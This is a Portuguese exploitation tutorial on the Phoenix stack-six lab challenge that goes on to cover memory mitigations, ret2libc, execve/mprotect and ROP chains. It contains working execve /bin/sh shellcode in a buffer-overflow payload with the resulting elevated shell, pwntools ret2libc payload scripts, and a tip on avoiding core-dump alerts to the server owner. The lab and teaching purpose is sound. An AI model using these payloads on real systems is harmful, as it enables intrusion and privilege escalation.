0x00007fffffffe508│+0x0008 0x00007ffff7db6d0f
0x00007fffffffe510│+0x0010 0x00007ffff7ffc948
0x00007fffffffe518│+0x0018 0x00000000000000a6
0x00007fffffffe520│+0x0020 0x00007fffffffe57f
0x00007fffffffe528│+0x0028 0x0000000000000001
0x00007fffffffe530│+0x0030 0x4141414141414141
0x00007fffffffe538│+0x0038 0x00007ffff7ffb300
0x00007fffffffe540│+0x0040 0x0000000000000000
0x00007fffffffe548│+0x0048 0x0000000000600c00
0x00007fffffffe550│+0x0050 0x000000000040079b
0x00007fffffffe558│+0x0058 0x0000000000000000
...
...
...
Isso reduz bastante, mas ainda não o suficiente: a gente precisa de 0x00007fffffff no valor, e não no endereço
Para isso, podemos usar cut! Usando cut antes do grep nos estamos só levando os valores em consideração! Para facilitar, também podemos deixa-los em ordem crescente (sort)!
$ cat /tmp/mem | cut -d " " -f 2 | grep "0x00007fffffff" | sort
0x00007fffffffe541
0x00007fffffffe57f
0x00007fffffffe620
0x00007fffffffe628
0x00007fffffffe638
0x00007fffffffef10
as envs estão de: 0x7fffffffe817 (inclusivo) a 0x7fffffffeff8 (exclusivo)
O único valor valido é 0x00007fffffffef10, pois todos os outros são menores que 0x00007fffffffe817 !
Agora, basta achar o endereço desse pointer! Portanto vamos tirar o cut :D
$ cat /tmp/mem | grep "0x00007fffffffef10"
0x00007fffffffe5c8│+0x00c8 0x00007fffffffef10
Porem, ainda tem um detalhe! Nos não queremos esse endereço no rbp! Nos queremos ele no rip!
Assim, nos vamos apontar RBP para o item de cima da lista! Ai quando main retornar (pop rip) o valor vai ser o correto!
Lembrando que, quando uma função retorna, o endereço 8 bytes maior que rbp, é onde o rip esta! Então por definir rbp = 0x00007fffffffe5c0, nos
estamos definindo rip = 0x00007fffffffe5c8 então nos temos RIP -> 0x00007fffffffe5c8 -> 0x00007fffffffef10 -> env vars
E você talvez voce esteja se perguntando, pra qual env var que RIP ta apontando?
gef> x/s 0x00007fffffffef10
0x7fffffffef10: 'A' <repeats 127 times>
Por sorte, justamente o inicio do nosso buffer! Então não precisa nem de NOP sled ate o shellcode
Se você quer continuar sozinhx, agora é sua hora de brilhar!
Dica: O valor que precisamos colocar no rbp salvo, por meio do overflow é: c0
Eu recomendo vc tentar encontrar ele por conta própria pois
pode variar de acordo com o seu computador (explicação em breve) :D
.
.
.
.
.
.
.
Shellcode
Então o nosso exploit vai ficar: shellcode+AAAAAAAAAAAA+c0
Para testar isso, vou usar o truque do 0xcc:
$ export ExploitEducation=$(python -c "print '\xcc' + 125 * 'A' + '\xc0'")
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
Trace/breakpoint trap
Obs: eu separei a linha do "Welcome AAAAAA....AAA????" para caber na tela
Isso quer dizer que conseguimos execução de código! lembrando que isso é muito frágil: uma alteração nas envs e o exploit quebra!
Nos podemos usar técnicas como encontrar um pointer que esta numa localização fixa usando ROPgadgets, ou um NOP sled!
Porem, nesse desafio vamos focar em só fazer ele funcionar! Caso vc queira, pode aplicar as técnicas ensinadas previamente para tornar o exploit melhor!
Obs
Mas por exemplo, caso executemos ./stack-six ao invés de /opt/phoenix/amd64/stack-six, o exploit não funciona :(
$ ./stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you �AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
Segmentation fault
E por isso que, quando for ver outros tutoriais, talvez c0 seja outro valor! Muito provavelmente essa diferença é causada pela env LS_COLORS
(uma variável gigantesca que lista as cores do terminal!
Caso você utilize um terminal mais moderno (com emojis por exemplo) para entrar via ssh, pode haver uma diferença!
Mas você esta equipadx com o conhecimento para conseguir resolver e encontrar o valor correto, caso tenha mudado! :D
Agora, vamos usar um shellcode de verdade! Até achar um que funciona é tentativa e erro! Eu recomendo você procurar aqui: shell-storm
Para mim, shellcode-806 costuma funcionar muito bem, e dessa vez funcionou perfeitamente! :D
Mas claro, você pode brincar com todos aqueles shellcodes: alterar a senha, criar um arquivo, ... o ceu é o limite! Ou talvez nem o ceu... ja que esse esse é um tutorial sobre quebrar limites hehehe :D
AVISO: Esse tutorial é sobre quebrar o limite de buffers! Não tente quebrar o ceu, pois pode resultar em acidentes, quedas, ou as pessoas rirem de você socando o ar!
Mas bem, piadas sem graça a parte, o exploit ficou assim: SHELLCODE+99 * A+c0
$ export ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'")
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ id
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(pho
enix-amd64-stack-six)
groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
obs: eu precisei colocar o primeiro comando numa caixinha diferente para caber na tela :/ Mas finge que é a mesma hehe :D
Ou caso você prefira tudo em um só comando, basta definir a env e executar de uma vez:
ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'") /opt/phoenix/amd64/stack-six
Lembrando que a quantidade de As deve ser alterada para que c0 seja o byte 127 (shellcode + AAAAAA + c0 = 127)
Nesse caso, o shellcode tem 27 bytes: 27 + 99 As + 1 byte (c0) = 127
Caso seu shellcode seja maior, basta reduzir os As respectivamente!
Finalmente! terminamos a parte da stack uhuuu
Esse stack-six foi beeeeem complicadinho! Então parabéns por ter chegado ate aqui! :D
üí´ Solu√ß√£o
$ export ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'")
$ /opt/phoenix/amd64/stack-six
Welcome to phoenix/stack-six, brought to you by https://exploit.education
Welcome, I am pleased to meet you 1�H�ѝ��Ќ��H��ST_�RWT^�;AAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA�����
$ id
uid=1000(user) gid=1000(user) euid=406(phoenix-amd64-stack-six) egid=406(pho
enix-amd64-stack-six)
groups=406(phoenix-amd64-stack-six),27(sudo),1000(user)
obs: eu precisei colocar o primeiro comando numa caixinha diferente para caber na tela :/ Mas finge que é a mesma hehe :D
Ou caso você prefira tudo em um só comando, basta definir a env e executar de uma vez:
ExploitEducation=$(python -c "print '\x31\xc0\x48\xbb\xd1\x9d\x96\x91\xd0\x8c\x97\xff\x48\xf7\xdb\x53\x54\x5f\x99\x52\x57\x54\x5e\xb0\x3b\x0f\x05' + 99 * 'A' + '\xc0'") /opt/phoenix/amd64/stack-six
DEP | NX | W^X
Todas essas pretendem impedir a execução de código em partes da memoria que sejam "escreviveis".
Impedir que x atacante execute o código escrito pelx mesmx, previne que Shellcodes sejam usados! :D
Assim, ou uma parte da memoria ou pode ser escrita, ou executável, mas nunca as duas simultaneamente: Write XOR(^) eXecute
Você vai ouvir pessoas usando os 3 nomes para representar esse conceito, e dependendo do contexto não tem problema!
Porem eles são tecnicamente diferentes:
DEP (Prevencao da Execucao de Dados): a implementação do Windows
Nao eXecute: um bit que pode ser colocado para garantir a exclusão mutua em processadores AMD.
Intel tem um outro nome, que eu não lembro... e não importa o suficiente para eu pesquisar! :P
Atualmente, a exclusão mutua de escrever e executar ocorre por meio de paging: o sistema operacional decide as permissões das paginas de memorias, e garante que uma não viole W^X . No momento que você esta lendo, isso pode ter mudado!
System ASLR
ASLR randomiza os endereços das coisas na memoria! Porem com as suas limitações, dado que depende doo sistema operacional!
Cada OS implementa de um jeito, mas em geral se randomiza:
- Imports dinamicos (LIBC,...)
- Segmentos do executável (Data, ROData, ...)
- Stack e Heap
Porem, o endereço do código não muda!
PIE
Para garantir que o código também tenha sua posição randomizada, o binário precisa ser compilado com PIE !
PIE (Execucao Independente da Posição) impede
que o codigo possa ser executado independente da sua
posição na memoria (duh :P)
Para garantir isso, todos endereços precisam ser relativos ao invés de absolutos!
Endereço Instrução
Sem PIE 0x0001 jmp 0x0003 <- EIP
0x0002 add 1 2
0x0003 add 1 3
Com PIE ------ jmp EIP+2 <- EIP
------ add 1 2
------ add 1 3
No primeiro caso, se o executável mudar de endereço
o JMP pularia para a instrução errada, por causa do
endereço absoluto.
RELRO
Realocacoes Read-only: Dividido em 2 tipos: Parcial e Full
Atualmente, somente o RELRO Parcial vem como padrao no gcc
- PARCIAL:
gcc -Wl,-z,relroou nenhuma flag, em versoes modernas - FULL:
gcc -Wl,-z,relro,-z,now
Parcial
- As
sectionsde dados do ELF (got,dtors,ctors) precedem as do programa (data,bss). Assim, caso tenha um BoF no programa a estrutura do ELF fica intacta.
Full
- Tudo do parcial
- Re-Mapeia a GOT como
r--, impedindo que a usemos para ganhar execucao.
Porem para fazer isso torna-se nescessario pre-resolver todas as calls
dinamicas. Assim. desativando RTLD_LAZY e consequentemente tornando a
inicializacao mais lenta.
Da nossa perspectiva, ficamos com opcoes reduzidas para execucao de codigo,
tendo de usar tecnicas como corromper os malloc hooks ou o vtable pointer
do stdio. (mais sobre esses no futuro!)
Fontes e Recursos Adicionais
TODO
Canaries
Outras
Linux
Pointer Guard
Windows
Ret2LibC
Ret2Libc foi uma técnica desenvolvida para combater W^X. Alem disso, ter domínio dessa técnica facilitar a compreensão de ROP. :D
Por nao podermos colocar o shellcode na stack (ou heap), precisamos encontrar outra maneira de conseguir uma shell... Assim, vamos precisar encontrar uma parte executável na memoria! Uma função do próprio programa!
Voce se lembra de quando chamávamos uma call_me() ou win() nos desafios
iniciais? Então... poderíamos fazer isso... mas ninguém colocaria uma
função pre-pronta pra nos dar uma shell :(
Felizmente, existe LibC, e dentro dela existem múltiplas funções úteis!
Funções Úteis
System()
Para nosso propósito, ela recebe 1 argumento, o caminho do programa para
executar (Ex: /bin/sh)
Em C:
#include <stdlib.h>
int main() {
system("/bin/ls");
return 0;
}
Em assembly:
.LC0:
.string "/bin/ls"
main:
push rbp
mov rbp, rsp
mov edi, OFFSET FLAT:.LC0
call System
mov eax, 0
pop rbp
ret
A função recebe um pointer para a string via rdi (64 bits) ou os
argumentos sao passados pela stack (32 bits). Nesse post vou focar em 32
bits!
Conseguindo o pointer para /bin/sh
Usando pwntools:
x = next(libc.search(b"/bin/sh\x00"))
x sera um pointer contendo o endereço da string /bin/sh
Em 32 bits, basta colocar ele no local previamente mencionado!
Em 64 bits, precisaremos de um gadget para colocar esse valor no rdi... Portanto, voce vai precisar saber ROP, o tema do proximo capitulo!
Layout da stack numa call 32 bits
Func_1
____________
| |
| RBP |
|____________|
____________
| |
| RIP | <--- RSP -> No BOF tradicional, corrompemos esse RIP!
|____________| Porem, nao costumamos pensar o que acontece depois!
____________
| | Um ret simplesmente significa:
| ARG_1 | pop RIP
|____________| jmp RIP
____________
| | E como em qualquer pop, RSP se movimenta
| ARG_2 |
|____________|
Func_1 System
____________ ____________
| | | |
| RBP | Vamos supor que RIP->System() | |
|____________| Então da perspectiva de System, |____________|
____________ ARG_1 vira RIP ____________
| | ARG_2 vira ARG_1 | |
| RIP | ____ | |
|____________| | |____________|
____________ | ____________
| | V | |
| ARG_1 | <--- RSP RSP ---> | RIP |
|____________| |____________|
____________ ____________
| | | |
| ARG_2 | | ARG_1 |
|____________| |____________|
Func_1 System
____________ ____________
| | | |
| AAAAAAAAAA | A Func_1 esta vulnerável a BOF | |
|____________| |____________|
____________ ____________
| | E nos controlamos a stack :D | |
| SYSTEM() | Então podemos passar os args | |
|____________| e o RIP de retorno para System |____________|
____________ ____________
| | | |
| DDDDDDD | <--- RSP RSP ---> | RIP |
|____________| |____________|
____________ ____________
| | | |
| /bin/sh | <<< --------------------------- >>> | ARG_1 |
|____________| |____________|
System (ou qualquer outra
função que voce chamar)
vai executar /bin/sh e
tentar retornar para DDDDDDDD
Ao tentar retornar para DDDDDDDD, ocorrera uma SEGFAULT.
Isso sera discutido na proxima secao (Execve)....
Mas por enquanto, o que voce precisa saber: System cria um novo processo
(fork, gerando um processo secundário: child_proc)!
Então retornar errado vai crashar o child_proc ... mas e esse crash sera
reportado para o processo principal e nao para o computador!
SystemAGE COMO UMA EXCESSAO: NAO GERANDOSEGFAULTAO RETORNAR ERRADO !!!!!
Unindo tudo
Vamos supor que o programa esta vulnerável a um BoF tradicional na função
batata(), possui W^X, e o ASLR esta DESATIVADO!
O RIP salvo esta a 40 bytes de distancia!
from pwn import *
elf = ELF("./blablabla")
libc = elf.libc
payload = b""
payload += b"A" * 40 # Padding
payload += p32(libc.sym.system) # RIP salvo batata()
payload += b"D" * 8 # Padding / RIP salvo system()
payload += p32(next(libc.search(b"/bin/sh\x00"))) # ARG_1 para system()
Caso voce esteja com pressa, adios!
Daqui em diante eu vou discutir técnicas alternativas de ret2libc, vantagens e desvantagens... Para ter bom proveito eu recomendo re-ler depois de aprender ROP!
Pontos Fracos
Estaticamente Linkado
Em programas estaticamente linkados ao libc, somente podemos usar uma fração das funções presentes, pois somente as que sao originalmente usadas pelo programa sao linkadas!
Dinamicamente Linkado (+ ASLR)
Ja em programas que usam o libc do sistema, voce pode usar o todo o potencial do libc. Porem caso o computador possua ASLR ligado, sera necessário primeiro encontrar o endereço aleatório do libc (libc-leak), ou executar o exploit em loop ate voce dar sorte (viável somente em computadores 32 bits).
Funções Uteis Pt 2
Execve() + Exit()
Execve e simplesmente um wrapper envolta da syscall de mesmo nome, e
funciona igual System, porem com uma diferença: System cria um novo
processo para o programa, enquanto Execve substitui o atual!
Quando vc sai da shell em System, o programa finaliza normalmente. Ja em
Execve, ele age como se estivesse retornando de uma call, assim, se voce
simplesmente chamar ele, quando voce fechar a shell vai gerar uma
SEGFAULT tentando executar *DDDDDDD
E com a SEGFAULT, um core dump sera gerado... Disparando alarmes e
ativando mecanismos de segurança que alertam o dono do servidor!
Assim, precisamos substituir esse valor por Exit(), garantindo que o
programa finalize silenciosamente!
Alem disso, existe mais uma diferença, execve recebe 3 argumentos:
#include <stdio.h>
#include <unistd.h>
int main() {
execve("./blablabla", NULL, NULL);
return 1;
}
O primeiro: programa a ser executado
O segundo: argv (poderíamos passar -p para sh manter os privilégios)
O terceiro: envp (environment vars)
Nos podemos simplesmente defini-las como NULL para evitar dor de cabeca!
Em 64 bits precisaríamos de múltiplos gadgets para salvar um em cada register
.LC0:
.string "./blablabla"
main:
push rbp
mov rbp, rsp
mov edx, 0 ; envp
mov esi, 0 ; argv
mov edi, OFFSET FLAT:.LC0 ; programa
call execve
mov eax, 1
pop rbp
ret
Caso voce queira usar argv:
#include <stdio.h>
#include <unistd.h>
int main() {
char *argv[] = {"arg1", "arg2", NULL};
execve("./blablabla", argv, NULL);
return 1;
}
.LC0:
.string "arg1"
.LC1:
.string "arg2"
.LC2:
.string "./blablabla"
main:
push rbp
mov rbp, rsp
sub rsp, 32
mov QWORD PTR [rbp-32], OFFSET FLAT:.LC0
mov QWORD PTR [rbp-24], OFFSET FLAT:.LC1
mov QWORD PTR [rbp-16], 0
lea rax, [rbp-32]
mov edx, 0
mov rsi, rax
mov edi, OFFSET FLAT:.LC2
call execve
mov eax, 1
leave
ret
E combinando tudo: Compiler Explorer
Vai testar la, pra voce criar uma vibe intuitiva do que ta acontecendo!
#include <stdio.h>
#include <unistd.h>
int main() {
char *argv[] = {"arg1", "arg2", NULL};
char *envp[] = {"env1", "env2", NULL};
execve("./blablabla", argv, envp);
return 1;
}}
..LC0:
.string "arg1"
.LC1:
.string "arg2"
.LC2:
.string "env1"
.LC3:
.string "env2"
.LC4:
.string "./blablabla"
main:
push rbp
mov rbp, rsp
sub rsp, 64
mov QWORD PTR [rbp-32], OFFSET FLAT:.LC0
mov QWORD PTR [rbp-24], OFFSET FLAT:.LC1
mov QWORD PTR [rbp-16], 0
mov QWORD PTR [rbp-64], OFFSET FLAT:.LC2
mov QWORD PTR [rbp-56], OFFSET FLAT:.LC3
mov QWORD PTR [rbp-48], 0
lea rdx, [rbp-64]
lea rax, [rbp-32]
mov rsi, rax
mov edi, OFFSET FLAT:.LC4
call execve
mov eax, 1
leave
ret
Bem, agora que voce voltou de ficar brincando com a função, vamos voltar a pratica:
Eu tenho 99% de certeza que isso funcionaria, porem eu nunca usei execve em 32 bits! D:
from pwn import *
elf = ELF("./blablabla")
libc = elf.libc
payload = b""
payload += b"A" * 40 # Padding
payload += p32(libc.sym.execve) # RIP salvo batata()
payload += p32(libc.sym.exit) # RIP salvo execve()
payload += p32(next(libc.search(b"/bin/sh\x00"))) # ARG_1 execve()
payload += p32(0) # argv execve()
payload += p32(0) # envp execve()
Os argumentos estão sendo passados conforme convenção... mas eu nao posso garantir!
Tecnicamente eu poderia testar usando a referencia acima ([rbp - 123]) ! opa, preguiça hehehe :/
Mas como eu mencionei anteriormente,
execvee a proxima técnica (mprotect) sao mais comuns apos voce aprender ROP, apesar de tecnicamente serem ret2libc
Mprotect() + ret2shellcode
Mprotect pode ser usado para tornar uma região da memoria RWX novamente!
A funcao recebe 3 argumentos: mprotect(addr, size, perms)
Assim, em 64 bits vamos precisar de uma chain, e em 32 bits dar push da direita pra esquerda!
mprotect
ret -> shellcode
addr
size
perms
Argumentos
Addr
O endereço deve ser alinhado ao page_size, assim podemos fazer:
((addr >> 4*n) << 4*n)
Alinhando o endereço fazendo shift-direita shift-esquerda, 4 por digito hex!
>>> hex((0x7ffe23668bf4 >> 12) << 12 )
'0x7ffe23668000'
Size
O valor deve ser multiplo de page_size, exemplo: 0x1000 em x86_64
Para encontrar esse valor na arquitetura que voce esta usando, basta ler o
manual (opção chata e 0% descolada) ou usar page_size = getpagesize (); em C
Perms
As permissões sao: PERM_READ, PERM_WRITE,... etcetc
OBS: existem outras permissões relacionadas a memoria privada vs compartilhada etc
Porem, essas sao somente macros de valor substituídas por ints
read=1 write=2 exec=4
Assim, para termos todas as permissões, o valor de perms deve ser 7!
Classificação
Esses tipo de exploit se classifica como: exploit de múltiplas etapas
Assim, tornando a região do nosso shellcode executável, e somente depois pulando para ele! Esses exploits vem se tornando mais e mais comuns conforme novas proteções sao adicionadas!
Analise
Porem, essa técnica sera usada predominantemente em SROP 64 bits !
Caso voce nao esteja vendo SROP no momento, pode pular e voltar no futuro!
Eu recomendo que voce pegue o exemplo em man mprotect e brinque com ele +
strace --trace=mprotect para criar uma intuição!
Eu alterei o meu para ficar assim:
#include <fcntl.h>
#include <signal.h>
#include <stdio.h>
#include <string.h>
#include <sys/mman.h>
#include <sys/stat.h>
#include <sys/types.h>
#include <unistd.h>
static int alloc_size;
static char* memory;
// gcc c.c -o c
void segv_handler (int signal_number)
{
printf ("memory accessed!\n");
mprotect (memory, alloc_size, PROT_READ | PROT_WRITE);
}
void foo() {
mprotect (memory, alloc_size, 2);
}
int main ()
{
int fd;
struct sigaction sa;
/* Install segv_handler as the handler for SIGSEGV. */
memset (&sa, 0, sizeof (sa));
sa.sa_handler = &segv_handler;
sigaction (SIGSEGV, &sa, NULL);
/* Allocate one page of memory by mapping /dev/zero. Map the memory
as write-only, initially. */
alloc_size = getpagesize ();
fd = open ("/dev/zero", O_RDONLY);
memory = mmap (NULL, alloc_size, PROT_WRITE, MAP_PRIVATE, fd, 0);
close (fd);
/* Write to the page to obtain a private copy. */
memory[0] = 0;
foo();
/* Write to the allocated memory region. */
memory[0] = 1;
/* All done; unmap the memory. */
printf ("all done\n");
munmap (memory, alloc_size);
return 0;
}
Eu coloquei a funcao dentro do foo(), caso o gcc esteja colocando ela inline,
vale a pena checar as flags de otimização!
A funcao fica:
0x00005555555552a7 <+0>: endbr64
0x00005555555552ab <+4>: push rbp
0x00005555555552ac <+5>: mov rbp,rsp
0x00005555555552af <+8>: mov eax,DWORD PTR [rip+0x2d63] # alloc_size
b 0x00005555555552b5 <+14>: movsxd rcx,eax
b 0x00005555555552b8 <+17>: mov rax,QWORD PTR [rip+0x2d61] # memory
b 0x00005555555552bf <+24>: mov edx,0x2
0x00005555555552c4 <+29>: mov rsi,rcx
0x00005555555552c7 <+32>: mov rdi,rax
b 0x00005555555552ca <+35>: call 0x555555555150 <mprotect@plt>
0x00005555555552cf <+40>: nop
0x00005555555552d0 <+41>: pop rbp
0x00005555555552d1 <+42>: ret
b sao os breakpoints
Em seguida, crie o seguinte gdbscript
disassemble foo
b *foo+14
b *foo+17
b *foo+24
b *foo+35
r
info registers $eax
c
info registers $eax $rcx
c
info registers $rax
c
info registers $edx $rsi $rcx $rdi $rax
Assim, temos uma visão de todos os registers afetados na funcao! E fica mais fácil de brincar com o programa, ver o que causa erro, etcetc....
Efetivamente, a funcao recebe:
edx = flags
rsi = page size
rdi = addr
Breakpoint 4, 0x00005555555552ca in foo ()
edx 0x2 2
rsi 0x1000 4096
rdi 0x7ffff7fc7000 140737353904128
Resumo
-
A GOT armazena o endereço da funcao apos ser resolvido!
-
Quando nos chamamos uma funcao do libc, nao estamos chamando elas diretamente, e sim a sua entrada na PLT.
-
A PLT checa a GOT, caso o endereço ja tenha sido resolvido,
jmpla -
Caso a funcao NAO tenha sido chamada e consequentemente o endereço ainda nao tenha sido resolvido, coordena com
ld.sopara resolver!
pwndbg> disassemble vuln
push rbp
mov rbp,rsp
sub rsp,0x20
break > lea rdi,[rip+0xec3]
call 0x401030 <puts@plt>
break > lea rax,[rbp-0x20]
mov rdi,rax
mov eax,0x0
call 0x401040 <gets@plt>
nop
leave
ret
pwndbg> b vuln
pwndbg> b *vuln+20
-------------------------------------
- Antes de puts ter sido executada -
-------------------------------------
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 2
[0x404018] puts@GLIBC_2.2.5 -> 0x401036 (puts@plt+6) ◂— push 0 /* 'h' */
[0x404020] gets@GLIBC_2.2.5 -> 0x401046 (gets@plt+6) ◂— push 1
pwndbg> disassemble 0x401036
jmp QWORD PTR [rip+0x2fe2] # 0x404018 <puts@got.plt>
push 0x0
jmp 0x401020
-------------------------------------
- Depois de puts ter sido executada -
-------------------------------------
pwndbg> got
GOT protection: Partial RELRO | GOT functions: 2
[0x404018] puts@GLIBC_2.2.5 -> 0x7ffff7e655f0 (puts) ◂— push r14
[0x404020] gets@GLIBC_2.2.5 -> 0x401046 (gets@plt+6) ◂— push 1
Perspectiva de Atacante
RELRO Parcial
Caso o RELRO seja parcial, nos podemos alterar o valor na got, fazendo uma call ser redirecionada para, por exemplo, um shellcode!
Esse tipo de cenário pode ser encontrado em vulnerabilidades
escrever-n-bytes---em-algum-lugar !
Alem disso podemos ler ela e obter um leak, descrito no proximo exemplo!
RELRO Full
Com RELRO Full, nos podemos somente ler a GOT (que ja vem com valores pre-resolvidos).
Porem isso se mostra util pois, podemos mandar esse endereco de volta
( por meio de um puts por exemplo ) e usar esse leak para desativar ASLR!
Ou podemos calcular a distancia dentro do libc entre a funcao do leak e
system.
Em seguida ajustar esse valor (pop rbp; add rax, rbp, com rax = leak) e chama-lo: call rax, novamente burlando ASLR! :D
Analise A Fundo PLT e ld.so ~TODO~
Intro ROP
ROP (programação orientada ao retorno) foi um técnica desenvolvida
para burlar todas as limitações e mecanismos de segurança
impostos no RIP!
Vamos considerar que todas mitigações exceto PIE estão ativas!
Teoria
Ret
O que faz o RIP ser especial? Em um nível abstrato, quais sao
suas propriedades genéricas que o dao sua funcionalidade??
- [1] ~ O RIP aponta para um endereço na memoria
- [2] ~ Em seguida, ele age com base no valor presente
- [3] ~ Ele automaticamente avança (aumenta seu endereço)
- [4] ~ jmp [1]
Existe algum outro que possa operar dessa maneira? Sim! o RSP!
Quando o processador executa RET, o endereço no topo da stack
(aonde RSP aponta) sera colocado no RIP e o RSP se ajusta:
RSP += 8! :D
Gadgets
Um gadget consiste em uma sequencia de instruções, seguidas de um
RET. Por exemplo:
gadget_1:
mov rax rbx
mov r12 r13
ret
gadget_2:
pop rdi
pop rbp
ret
Vamos supor que apos um BoF, o RIP salvo esta num offset de 40.
payload = b"A" * 40
payload += gadget_1
payload += b"B" * 8
Quando a função vulnerável retornar, o valor no topo da stack sera
&gadget_1
vulnerável: stack:
... AAAAAAAA
leave ...
ret <- RIP AAAAAAAA
gadget_1 <- RSP
BBBBBBBB
A execução sera redirecionada, e o RSP ira avançar
gadget_1: stack:
mov rax rbx <- RIP AAAAAAAA
mov r12 r13 ...
ret AAAAAAAA
gadget_1
BBBBBBBB <- RSP
As duas instruções serão executadas!
gadget_1: stack:
mov rax rbx AAAAAAAA
mov r12 r13 ...
ret <- RIP AAAAAAAA
gadget_1
BBBBBBBB <- RSP
E agora, a funcao retornara para BBBBBBBB, um endereço invalido, gerando uma SEGFAULT
E caso a instrução seja um POP? o RSP andaria? Sim, e precisamos levar
isso em consideração
payload = b"A" * 40
payload += gadget_2
payload += b"T" * 8 # RDI
payload += b"Y" * 8 # RBP
payload += b"B" * 8 # RET
E vamos supor que os registers sao inicializados com OOOOOOOO
vulnerável: stack:
... AAAAAAAA
leave ...
ret <- RIP AAAAAAAA
gadget_2 <- RSP
TTTTTTTT
YYYYYYYY
BBBBBBBB
A execução sera redirecionada, e o RSP ira avançar !
Ate aqui foi igual ao anterior!
gadget_2: stack: registers:
pop rdi <- RIP AAAAAAAA RDI = OOOOOOOO
pop rbp ... RBP = OOOOOOOO
ret AAAAAAAA
gadget_2
TTTTTTTT <- RSP
YYYYYYYY
BBBBBBBB
pop rdi sera executado, salvando o valor no topo da stack em RDI e avançando RSP
gadget_2: stack: registers:
pop rdi AAAAAAAA RDI = TTTTTTTT
pop rbp <- RIP ... RBP = OOOOOOOO
ret AAAAAAAA
gadget_2
TTTTTTTT
YYYYYYYY <- RSP
BBBBBBBB
pop rbp sera executado, salvando o valor no topo da stack em RBP e avançando RSP
gadget_2: stack: registers:
pop rdi AAAAAAAA RDI = TTTTTTTT
pop rbp ... RBP = YYYYYYYY
ret <- RIP AAAAAAAA
gadget_2
TTTTTTTT
YYYYYYYY
BBBBBBBB <- RSP
E agora, a funcao retornara para BBBBBBBB, um endereço invalido, gerando uma SEGFAULT
Chains
E se, ao invés de retornarmos para BBBBBBBB, retornássemos para outro gadget?
Seria tipo uma corrente:
___com um gadget executando e redirecionando para o proximo....
___com um gadget executando e redirecionando para o proximo....
___com um gadget executando e redirecionando para o proximo....
___com um gadget executando e redirecionando para o proximo....
Assim, poderíamos devagarinho reconstruir o nosso shellcode, a partir de partes pre-existentes do código!
E como PIE esta desativado, a secao de código do binário NAO tem seu
endereço randomizado!
OBS: Voce nao pode usar a secao de código do libc como gadgets, pois ele tem o endereço randomizado (ASLR)
gadget_1:
mov rax rbx
mov r12 r13
ret
gadget_2:
pop rdi
pop rbp
ret
payload = b"A" * 40
payload += gadget_1
payload += gadget_2
payload += b"T" * 8 # RDI
payload += b"Y" * 8 # RBP
payload += gadget_1
payload += gadget_1
payload += gadget_1
payload += gadget_2
payload += b"T" * 8 # RDI
payload += b"Y" * 8 # RBP
payload += gadget_1
payload += b"B" * 8 # SEGFAULT
Essa chain em especifico nao faz nada de util, somente demonstrar como chains podem ser construidas!
Numa situação real nao teríamos uma SEGFAULT no final, pois ja teríamos uma
shell antes de chegar a esse ponto!
Ferramentas
Existem múltiplas ferramentas capazes de encontrar gadgets e ate gerar chains automaticamente!
Eu recomendo voce testar e ver o que prefere!
E enquanto eu pegava os links no github.. eu encontrei esse em rust: ropr
Que parece ser bem interessante, mas ainda vou testar!
Todas as ferramentas possuem funcionalidade de filtrar gadgets com badchars, automaticamente gerar chains...
Eu pessoalmente gosto de ropper e do pwntools (pq ter tudo dentro do mesmo framework == incrível)
Curiosidades
Em arquiteturas RISC, todas as instruções tem o mesmo tamanho (em bytes)...
Porem em x86 (CISC), as instruções podem desde 2 bytes, ate 5/6/7 bytes!
Assim, as ferramentas que encontram gadgets podem criar instruções que originalmente nao existiam no programa!
Exemplo (fictício, pq eu to com preguiça ler o manual e ver os bytecodes)
O programa originalmente ve:
12 34 56 78 91 12 34 90
| | | |
Add Pop Add NOP
Porem, a ferramenta pode escolher um offset com alinhamento diferente do anterior:
12 34 56 78 91 12 34 90
| | | |
AND Sub Push XOR
Mesmos bytes, instruções diferentes
Primitivos
Primitivos sao a base dos exploits modernos, um primitivo pode ser desde uma sequencia especifica de gadgets, funções, etcetc.
Normalmente, voce vai adicionar funções aos seus scripts que usem o primitivo, acelerando a velocidade de desenvolvimento dos exploits.
Classificação
Write - What - Where
Esse primitivo te permite escrever algo (what) em algum lugar, esse algo pode ser desde 1 byte, ate uma qword inteira!
Exemplo
Uma chain que escreve um byte em um local:
gadget_pop_rdi:
pop rdi
ret
gadget_pop_rax:
pop r13
pop rax
pop r12
xor r13 r12
ret
gadget_mov_rdi_al:
mov [rdi] al
pop r14
